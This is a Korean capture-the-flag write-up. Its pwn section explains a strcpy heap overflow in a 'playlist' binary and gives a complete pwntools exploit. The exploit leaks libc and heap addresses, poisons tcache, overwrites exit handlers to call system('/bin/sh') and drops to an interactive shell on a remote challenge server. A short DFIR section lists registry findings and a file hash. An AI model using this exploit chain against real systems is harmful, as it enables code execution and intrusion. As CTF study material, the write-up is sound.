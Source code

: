 작성자 : 조수호(shielder)

## pwn / playlist

```C
unsigned __int64 create()
{
  int i; // [rsp+0h] [rbp-120h]
  int v2; // [rsp+4h] [rbp-11Ch]
  int v3; // [rsp+4h] [rbp-11Ch]
  char *dest; // [rsp+8h] [rbp-118h]
  char s[128]; // [rsp+10h] [rbp-110h] BYREF
  char buf[136]; // [rsp+90h] [rbp-90h] BYREF
  unsigned __int64 v7; // [rsp+118h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  if ( song_len <= 63 )
  {
    memset(s, 0, sizeof(s));
    memset(buf, 0, 0x80uLL);
    printf("Enter song name: ");
    v2 = read(0, buf, 0x80uLL);
    if ( buf[v2 - 1] == 10 )
      buf[v2 - 1] = 0;
    printf("Enter artist: ");
    v3 = read(0, s, 0x80uLL);
    if ( s[v3 - 1] == 10 )
      s[v3 - 1] = 0;
    if ( buf[0] && s[0] )
    {
      dest = (char *)malloc(0x100uLL);
      if ( dest )
      {
        strcpy(dest, buf);
        strcpy(dest + 128, s);
        for ( i = 0; i <= 63; ++i )
        {
          if ( !song_chunk[i + 8] )
          {
            song_chunk[i + 8] = (__int64)dest;
            break;
          }
        }
        ++song_len;
        puts("Song added to playlist!");
      }
      else
      {
        puts("Memory allocation failed!");
      }
    }
    else
    {
      puts("Invalid input!");
    }
  }
  else
  {
    puts("Playlist is full!");
  }
  return v7 - __readfsqword(0x28u);
}
```

`create`의 `strcpy`에서 힙 오버플로우가 발생한다. 이를 이용해서 size 조작을 할 수 있고, 서로 다른 위치에 있는 unsorted bin이 두 개 있으면 힙주소도 저장되기 때문에 립씨, 힙릭 모두 가능하다. 익스는 `strcpy`가 null까지만 복사하고, null까지 복사하기 때문에 가장 편한 방법인 `exit handler overwrite`로 진행하였다.

## ex.py

```python
from pwn import *
from tqdm import *
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('-r', '--remote', action='store_true', help='Connect to remote server')
parser.add_argument('-g', '--gdb', action='store_true', help='Attach GDB debugger')
args = parser.parse_args()

gdb_cmds = [
    'set follow-fork-mode parent',
    'b *exit',
    'c'
]

binary = './prob'
 
context.binary = binary
context.arch = 'amd64'
# context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

if args.remote:
    p = remote("43.200.69.175", 31338)
else:
    p = process(binary)
    if args.gdb:
        gdb.attach(p, '\n'.join(gdb_cmds))
l = ELF('./libc.so.6')

def create(ctt1 : int, ctt2 : bytes):
    p.sendlineafter(b'> ', b'1')
    p.sendafter(b': ', ctt1)
    p.sendafter(b': ', ctt2)

def delete(idx : int):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b': ', str(idx).encode())

def read():
    p.sendlineafter(b'> ', b'3')

for i in trange(50):
    create(b'a', b'a')
delete(0)
create(b'a' * 8 + p16(0x551), b'a' * 0x80)
delete(1)
create(b'a', b'a') # 1
read()
p.recvuntil(b'2. ')
l.address = u64(p.recvn(6).ljust(8, b'\x00')) - 0x203b20
print(hex(l.address))

create(b'a', b'a') # 2
delete(2)
read()
p.recvuntil(b'50. ')
heap_base = u64(p.recvn(5).ljust(8, b'\x00')) << 12
print(hex(heap_base))

point_guard = l.address - 0x2890
initial = l.address + 0x204fc0
print(hex(point_guard))
print(hex(initial))
create(b'a', b'a') # 3
create(b'a', b'a') # 4
delete(3)
delete(2)
delete(1)
create(b'a' * 0x10 + p64(point_guard ^ (heap_base >> 12)), b'a' * 0x80)
for i in trange(7, 2, -1):
    delete(1)
    create(b'a' * (8 + i), b'a' * 0x80)
delete(1)
create(b'a' * 0x8 + p64(0x111), b'a' * 0x80)
create(b'a', b'a') # 2
create(b'a' * 0x8, b'a' * 1)
delete(13)
delete(2)
delete(1)
# p.interactive()
create(b'a' * 0x10 + p64((initial + 0x10) ^ (heap_base >> 12)), b'a' * 0x80)
for i in trange(7, 2, -1):
    delete(1)
    create(b'a' * (8 + i), b'a' * 0x80)
delete(1)
create(b'a' * 0x8 + p64(0x111), b'a' * 0x80)
create(b'a', b'a') # 2
binsh = list(l.search(b'/bin/sh'))[0]
sys_enc = rol(l.sym['system'] ^ u64(b'a' * 8), 0x11)
create(b'b' * 0x8 + p64(sys_enc) + p64(binsh), b'a' * 1)
idx = 15

for i in trange(7, 0, -1):
    idx += 1
    delete(idx)
    delete(2)
    delete(1)
    create(b'a' * 0x10 + p64((initial - 0x10) ^ (heap_base >> 12)), b'a' * 0x80)
    for j in range(7, 2, -1):
        delete(1)
        create(b'a' * (8 + j), b'a' * 0x80)
    delete(1)
    create(b'a' * 0x8 + p64(0x111), b'a' * 0x80)
    create(b'a', b'a') # 2
    create(b'c' * 0x20 + b'\x04' * i, b'a')
print(idx)
for i in trange(15, -1, -1):
    if i == 8 : i -= 1
    idx += 1
    delete(idx)
    delete(2)
    delete(1)
    create(b'a' * 0x10 + p64((initial - 0x10) ^ (heap_base >> 12)), b'a' * 0x80)
    for j in range(7, 2, -1):
        delete(1)
        create(b'a' * (8 + j), b'a' * 0x80)
    delete(1)
    create(b'a' * 0x8 + p64(0x111), b'a' * 0x80)
    create(b'a', b'a') # 2
    create(b'\x01' * (0x10 + i), b'a')
p.sendlineafter(b'> ', b'4\n')
p.interactive()
```
![[Pasted image 20251024162846.png]]
# dfir / 시나리오-1

`C:\Windows\System32\config\SYSTEM`에서 `ControlSet001\Control\ComputerName\ComputerName` 레지스트리에서 호스트 네임 `DESKTOP-ABDAIP8`를 확인할 수 있다.  `ControlSet001\Tcpip\Parameters\Interfaces` 레지스트리에서 IP `192.168.18.123`을 확인할 수 있다. `ControlSet001\Control\TimeZoneInformation`에서 KST를 사용함을 확인하고, `C:\Windows\System32\config\SOFTWARE`에서 `Microsoft\Windows NT\CurrentVersion`에서 InstallDate `1760081313`을 확인할 수 있고, 이는 한국시간으로 2025년 10월 10일 16시 28분 33초이다. 크롬의 히스토리에서 다른 정상적인 파일 사이에 Guide.zip이라는 수상한 파일을 다운받은 것을 확인하였고, `Chrome Cache`에서 이를 찾아 extract하여 md5sum하면 `01255bb80bc6ba1b5198b48804386bdf`이다.

